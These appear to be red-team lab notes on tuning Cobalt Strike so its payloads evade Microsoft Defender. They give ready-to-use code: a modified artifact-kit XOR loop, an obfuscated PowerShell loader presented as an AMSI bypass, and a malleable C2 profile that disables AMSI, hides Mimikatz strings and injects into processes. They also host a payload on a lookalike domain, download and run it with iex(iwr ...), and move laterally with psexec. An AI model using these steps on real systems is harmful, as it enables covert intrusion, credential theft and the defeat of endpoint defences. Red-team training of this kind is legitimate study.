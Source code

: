 
### Artifacts

Open the artifacts folder (`arsenal-kit\kits\artifact`) within Visual Studio Code and open up `src-common/patch.c`

On line ~45 modify the for loop. **This is for the svc exe payloads.**
```c
x = length;
while(x--) {
  *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

On line ~116 modify the other for loop. **This is for the normal exe payloads.**
```c
int x = length;
while(x--) {
  *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

Save the changes (**File > Save**) and close the folder (**File > Close Folder**).

Run **build.sh** to build the new artifacts.
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact

./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
```

>The stage size tends to vary between CS releases as features get added or removed from Beacon.  Always run build.sh without arguments first to see what the minimum stage sizes are.

Import the `artifact.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-artifacts\mailslot`

---

### Resources

Open the resource folder in the arsenal-kit and build new resources
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource

./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
```

Open up the custom-resources folder in VS code

> Edit **template.x64.ps1** with the following

Rename **ALL**`func_get_proc_address` on line **3** to (Use Edit > Replace): 
```powershell
get_proc_address
```

Rename **ALL** `func_get_delegate_type` on line **10** to (Use Edit > Replace):
```powershell
get_delegate_type
```

Replace line **32** with:
```powershell
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
```

> Now obfuscate **compress.ps1** 

Use Invoke-Obfuscate to create a unique obfuscated version of the script. Choose anyone except for string obfuscation because of the `%%DATA%%`

```powershell
ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1
Invoke-Obfuscation

Invoke-Obfuscation> SET SCRIPTBLOCK [compress.ps1 contents]
```

Or use this plus the AMSI Bypass:
```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```

Import the `resources.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-resources\`

---

### Malleable C2

SSH into the Cobalt Strike instance and open up the profiles folder
```bash
cd /opt/cobaltstrike/profiles
```

Edit **default.profile** and add the following stage block:
```bash
stage {
   set userwx "false";
   set module_x64 "Hydrogen.dll";  # use a different module if you like
   set copy_pe_header "false";
}
```

Add the following post-ex block:
```bash
post-ex {
  set amsi_disable "true";
  set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
  set obfuscate "true";
  set cleanup "true";

  transform-x64 {
      strrep "ReflectiveLoader" "NetlogonMain";
      strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";
      strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";

      # Mimikatz evasion
      strrep "\\\\.\\pipe\\mimikatz" "\\\\.\\pipe\\rpcnet";
      strrep "powershell_reflective_mimikatz" "ps_shell_module";
      strrep "mimikatz(powershell)" "opseckat(pwsh)";
      strrep "mimikatz.log" "diagdata.log";
      strrep "mimikatz_x64.compressed" "binmod64.pack";
      strrep "mimikatz_dpapi_cache.ndr" "vault_cache.ndr";
      strrepex "ERROR kuhl_m_dpapi_chrome" "INFO dpapi_module";
      strrepex "ERROR kuhl_m_lsadump_getUsersAndSamKey" "WARN lsa_getusers_samkey";
      strrepex "ERROR kuhl_m_lsadump_getComputerAndSyskey" "INFO lsa_getcomputer_syskey";
      strrepex "ERROR kuhl_m_lsadump_lsa_getHandle" "WARN lsa_gethandle";
      strrepex "ERROR kuhl_m_lsadump_enumdomains_users" "WARN enum_domains_users";
      strrep "ERROR mimikatz_doLocal" "INFO module_doLocal";
  }
}


```

Add the following process-inject block:
```bash
process-inject {
  execute {
      NtQueueApcThread-s;
      NtQueueApcThread;
      SetThreadContext;
      RtlCreateUserThread;
      CreateThread;
  }
}
```

Save changes and restart the Team Server
```powershell
sudo /usr/bin/docker restart cobaltstrike-cs-1
```

> If the container fails to restart properly use `sudo /usr/bin/docker logs cobaltstrike-cs-1` to see the profile errors.

---

### Test

Build new payloads:
- Go to **Payloads > Windows Stageless Generate All Payloads**

Test stageless payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\artifact64big.exe
```

Test PowerShell payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
```


Host a 64-bit PowerShell payload.
1. Go to **Site Management > Host File**
2. File: _C:\Payloads\http_x64.ps1_
3. Local URI: /test
4. Local Host: www.bleepincomputer.com

Verify that Defender is enabled and execute up on test host
```powershell
(Get-MpPreference).DisableRealtimeMonitoring

iex(iwr "http://www.bleepincomputer.com/test" -useb)
```

Verify Defender is on on remote host
```powershell
remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring
```

Change `spawnto` for the service payload
```powershell
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Now lateral movement can be used with the service payload
```powershell
jump psexec64 lon-ws-1 smb
```